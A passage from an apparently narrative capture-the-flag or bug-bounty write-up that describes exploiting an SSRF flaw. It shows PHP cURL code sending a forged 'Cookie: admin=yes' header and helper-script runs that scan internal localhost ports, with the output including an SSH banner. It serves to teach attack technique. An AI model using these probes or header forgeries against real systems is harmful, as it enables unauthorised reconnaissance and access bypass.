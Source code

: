 ```php
    curl_setopt($ch, CURLOPT_HTTPHEADER, array_merge([
        'Host: admin.acme.org',
        'Cookie: admin=yes',
    ], $headers));

    if (isset($data)){
        curl_setopt($ch, CURLOPT_POST, true);
        curl_setopt($ch, CURLOPT_POSTFIELDS, $data);
    }

    $r = curl_exec($ch);
    curl_close($ch);
    return $r;
}
```

He didn't know it at the time, but that script - like many PHP scripts before it - would
ultimately be his downfall.

SSRF had never been his forte, but sooner or later he recalled that one of the things people
often did with an SSRF vulnerability was to scan internal ports. He tested a known-open port:

```
▶ ./fetch.php 'localhost:22/212.foo.com'
localhost:22/212.foo.com
{"next":"\/read.php?id=176"}
{"data":"U1NILTIuMC1PcGVuU1NIXzcuMnAyIFVidW50dS00dWJ1bnR1Mi4yDQpQcm90b2NvbCBtaXNtYXRjaC4K"}

SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2
Protocol mismatch.
```

The theory worked! He sat quietly with his eyes closed and tried to imagine what he might
do if *he* were the sysadmin; what ports might be listening? 8080?

```
▶ ./fetch.php 'localhost:8080/212.foo.com'
localhost:8080/212.foo.com
{"next":"\/read.php?id=177"}
{"data":""}
```

Nothing. 8000?

```
▶ ./fetch.php 'localhost:8000/212.foo.com'
localhost:8000/212.foo.com
{"next":"\/read.php?id=178"}
{"data":""}
```

Negatory. 8001? 443? 8443? 23?! Every one of them the same. "But wait!", he thought,
"This thing is requesting pages; perhaps there's a cache! Maybe memcached or redis.".

Ports 11211 and 6379 were requested, but returned nothing.
